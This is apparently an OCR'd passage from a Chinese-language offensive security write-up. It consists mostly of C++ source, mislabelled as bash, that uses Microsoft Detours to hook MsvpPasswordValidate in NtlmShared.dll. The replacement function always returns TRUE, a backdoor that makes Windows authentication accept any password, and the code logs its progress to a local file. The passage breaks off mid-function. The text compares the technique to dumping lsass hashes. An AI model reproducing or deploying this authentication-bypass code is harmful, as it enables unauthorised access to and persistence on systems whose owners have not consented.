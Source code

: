至此整个就实现了，实现流程很简单。  
全部实现如下，和 lsass dump hash 原理一样。

```bash
#pragma once
#define SECURITY_WIN32
#define WIN32_LEAN_AND_MEAN
#define DEBUG_BUILD

#include <windows.h>
#include <SubAuth.h>
#include <iostream>
#include <fstream>
#include <string>
#include "detours.h"
#pragma comment (lib,"detours.lib")

typedef BOOLEAN(WINAPI* pMsvpPasswordValidate)(BOOLEAN, NETLOGON_LOGON_INFO_CLASS, PVOID, void*, PULONG, PUSER_SESSION_KEY, PVOID);
pMsvpPasswordValidate MsvpPasswordValidate = nullptr;
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {

    return TRUE;

}
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);

    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }

    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;

    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }

    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());

    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);


    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }

```